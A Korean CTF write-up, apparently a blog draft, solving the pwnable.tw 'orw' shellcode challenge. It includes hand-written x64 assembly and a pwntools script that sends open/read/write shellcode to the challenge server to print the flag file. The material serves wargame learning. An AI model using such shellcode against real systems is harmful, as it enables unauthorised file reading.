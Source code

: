 ```yaml
---
title: pwnable.tw orw풀이
published: 2022-07-01
tags: [shellcode]
category: pwn
draft: true
---
```


# orw
![alt text](image.png)

문제에서 open, read, write 
syscall만 허용이 된다.

![
](image-1.png)

드림핵에서 풀었던 기초적인
쉘코드 문제랑 완전 비슷하다.

shellcraft 함수를 사용해서 풀어보겠다.

![alt text](image-3.png)

x86이다.

![alt text](image-4.png)

x86 syscall table 문서 참고해서 인자 잘 넣어주면 된다.

```asm
    mov rax, 0x72672f666c616700
    push rax
    mov rax, 0x002f686f6d652f6f
    push rax
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 2
    syscall
    mov rdi, rax
    mov rsi, rsp
    sub rsi, 0x1000
    mov rdx, 0x1000
    mov rax, 0x0
    syscall

    mov rdi, 1
    mov rax, 0x1
    syscall

    xor rdi, rdi
    mov rax, 0x3c
    syscall    
```

전에 만들었던 x64 쉘코드인데
rax, eax 호환되는 것처럼 쉽게 생각하면 쉽게 풀 수 있다.

```python
from pwn import *
r = remote('chall.pwnable.tw', 10001)
context.arch = 'i386'

dir = "/home/orw/flag"

shellcode = shellcraft.open(dir)
shellcode += shellcraft.read('eax', 'esp', 0x30)
shellcode += shellcraft.write(1, 'esp', 0x30)

r.sendlineafter(b"Give my your shellcode:", asm(shellcode))
r.interactive()

```

